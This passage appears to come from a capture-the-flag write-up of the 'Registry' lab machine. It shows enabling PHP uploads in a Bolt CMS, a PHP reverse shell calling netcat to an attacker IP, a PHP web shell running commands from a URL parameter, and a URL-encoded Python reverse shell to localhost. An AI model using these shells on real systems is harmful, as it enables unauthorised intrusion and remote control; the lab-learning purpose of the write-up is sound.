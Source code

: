 We just add ```php``` to this list and now we can upload php files.

One thing that is important to point out is that this particular box is not allowing us to make outbounds connections, which means that if I create a file to get a reverse shell, it would be something like this:

```php
<?php  
system("nc 10.10.14.38 9091 -e /bin/bash");
?>
```

But since there's this protection this would just fail. I struggled a bit to realize that I didn't actually had to leave the box. Since I had a decent SSH Shell, I could just start a netcat listener on the box and connect to it using localhost.

``` php
<?php  
system($_GET['cmd']);
?>
```

``` 
http://registry.htb/bolt/files/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22localhost%22,9091));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

Let's upload a file here

![registry_upload](/img/jekyll/8/registry_upload.png){:class="img-responsive"}

We fire up our netcat on the registry machine on port 9091 and get our new shell!

